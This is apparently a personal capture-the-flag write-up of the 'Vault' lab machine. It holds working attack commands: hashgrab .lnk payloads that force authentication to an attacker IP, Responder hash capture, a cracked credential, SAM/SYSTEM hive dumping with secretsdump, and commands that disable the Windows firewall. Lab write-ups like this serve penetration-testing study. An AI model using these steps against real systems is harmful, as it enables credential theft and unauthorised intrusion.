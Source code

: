 # Vault Helped-Through

Name: Vault
Date:  10/5/2023
Difficulty: Hard  
Goals:  
- Previous OSCP practice exam attmpt
Learnt:
- Some Practice machines are not for OSCP. Sad 

Previously I tried to do this machine as part of a practice OSCP exam attempt. Little did I know that this machine required responder. Although I really excelled in finding and combing through machines it also really hurt my chances with stress and that made me reconsider long term plans. Hopeful the later half of this year will bring a better life in many respects. One very important event was discovery and really trying to emulate and understand hackers like [XCT](https://www.youtube.com/watch?v=fRbVdbY1d28), prior to the recent rank changes of HTB seasons was top 1 on HTB. The rankinug which will move to official post beta phase in less than 30 days. I have set my sights on atleast getting Silver rank out of Bronze, Silver, Ruby, Platinum and Holo, but go for Ruby. I think I could maybe get one hard machine in a week, but I doubt it and I would have to get lucky.

## Recon - Previous Attempt

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](OS-ProvingGrounds/Vault/Screenshots/ping.png)

There are shares
![](enumfourlinuxshares.png)
smbmap show permissions
![](readwriteShare.png)

Bang on the [Tamil music to stay culturally enriched](https://www.youtube.com/watch?v=V8R1aZf1-AU). Anirudh is a tamil name on first google. 
![](bruteridsanirudh.png)

We have a writable share, a username - need a password and means of execution. After considering everything I went for both enumeration hint - it is ballbuster because it declare the the share is writable and the second is that there is a scripted user that will click shortlinks.

"Mount a client-side attack by uploading a shortcut file to the SMB share. A user will view the share and render file icons in it."

After some checking. This is definately not a OSCP like machine. So I am going to use metasploit or some C2  as I thought that this would not involve fake social engineering practice. Basically to keep the process clean and not mental fazzle myself doing this machine. Also [pentesterlab](https://pentestlab.blog/2019/10/08/persistence-shortcut-modification/) suggests we can use Empire which is OSCP related.

Edited from the article
```python
usemodule powershell/persistence/userland/backdoor_lnk
usestager windows/launcher_lnk
set Listener http
execute
```

We can put a shell on `smbclient -N ///DocumentsShare -U guest%<put empty quotes here>``

Did not get call back, but I also did not remove it from the share, so it is not considered malicious. So it might that want something really specific. For my 12 hour assessment - I am happy I enumerated well, will give myself the hour remaining to finish HTB Acute. 

## Return with XCT 

Regardless Client-Side Attacks are still part of OSCP course, but there is never pretend users in the exam. 

- Legacy Windows machine .scf could be used to beacon back to you box
- Shortcut files .lnk
- [XCT's Hashgrab](https://github.com/xct/hashgrab) - *"Generates scf, url & lnk payloads to put onto a smb share. These force authentication to an attacker machine in order to grab hashes (for example with responder)."*

```bash
smbclient -L \\192.168.156.172
# Connect to share
smbclient \\\\192.168.156.172\\DocumentsShare
# Test upload - smb: get $file
# Hashgrab
python3 hashgrab.py 192.168.45.5 xctisawesome
# Responder 
sudo responder -I tun0 
# Reconnect to share
smbclient \\\\192.168.156.172\\DocumentsShare
put xctisawesome.lnk
# wait..
```

And NLTMv2 relay!
![1080](anirudhshash.png)

Crack to get:
```
anirudh : SecureHM
```

## PrivEsc

Although as I have the walkthrough open for this I 
![1080](whoisanirudh.png)

We can perform backup of SYSTEM hive and dump with `impacket-secretsdump`
```powershell
cmd /c "reg save HKLM\SAM SAM & reg save HKLM\SYSTEM SYSTEM"
*Evil-WinRM* PS> download SYSTEM
*Evil-WinRM* PS> download SAM
# Wait...
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

![](administratorhash.png)

Can not WinRM in with hash. At this point I turned to the video as I do not want to crack hashes. He discusses GPOs but I want to enumerate to atleast find the vector.
![](cmemodules.png)

We could use powerview.ps1
![](gpowithpowerview.png)

I ran the latest winpeas 
![](permiswinpeas.png)

Remote [Bloodhound.py](https://github.com/fox-it/BloodHound.py)
```bash
sudo python3 bloodhound.py -c all -d vault.offsec -ns 192.168.156.172 -u 'anirudh' -p 'SecureHM'
ulimit -

```


https://www.youtube.com/watch?v=fRbVdbY1d28 - 4:15

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#exploit-group-policy-objects-gpo

https://github.com/FuzzySecurity/StandIn

## Beyond Root

#### Unintended Ways

https://github.com/xct/xc to celebrate kick the bad memories of this machine out will a bang I want to promote XCT and his xc shell.


#### Firewall fun

Firewall fun has been sitting in my to do list for beyond root.
```powershell
# Check Profile
netsh advfirewall show currentprofile

# Turn off the Firewall
NetSh Advfirewall set allprofiles state off

# Modify a Firewall Rule for a program
netsh advfirewall firewall add rule name="<Rule Name>" program="<FilePath>" protocol=tcp dir=in enable=yes action=allow profile=Private
netsh advfirewall firewall add rule name="<Rule Name>" program="<FilePath>" protocol=tcp dir=out enable=yes action=allow profile=Private
# Delete a rule
netsh.exe advfirewall firewall delete rule "<Rule Name>"
```
[test](https://www.itninja.com/blog/view/how-to-add-firewall-rules-using-netsh-exe-advanced-way)


```powershell
powershell -c Get-NetFirewallRule -Direction Outbound -Enabled True -Action Block 
```

```powershell
powershell -c "Get-NetFirewallRule -Direction Outbound -Enabled True -Action Block |
Format-Table -Property 
DisplayName, 
@{Name='Protocol';Expression={($PSItem | Get-NetFirewallPortFilter).Protocol}},
@{Name='LocalPort';Expression={($PSItem | Get-NetFirewallPortFilter).LocalPort}}, @{Name='RemotePort';Expression={($PSItem | Get-NetFirewallPortFilter).RemotePort}},
@{Name='RemoteAddress';Expression={($PSItem | Get-NetFirewallAddressFilter).RemoteAddress}},
Enabled,
Profile,
Direction,
Action"
```

```powershell
powershell -c "Get-NetFirewallRule -Direction Outbound -Enabled True -Action Block | Format-Table -Property DisplayName,@{Name='Protocol';Expression={($PSItem | Get-NetFirewallPortFilter).Protocol}},@{Name='LocalPort';Expression={($PSItem | Get-NetFirewallPortFilter).LocalPort}},@{Name='RemotePort';Expression={($PSItem | Get-NetFirewallPortFilter).RemotePort}},@{Name='RemoteAddress';Expression={($PSItem | Get-NetFirewallAddressFilter).RemoteAddress}}, Enabled, Profile,Direction,Action"

```

```powershell
powershell -c Get-NetFirewallRule -Direction Outbound -Enabled True -Action Allow
```


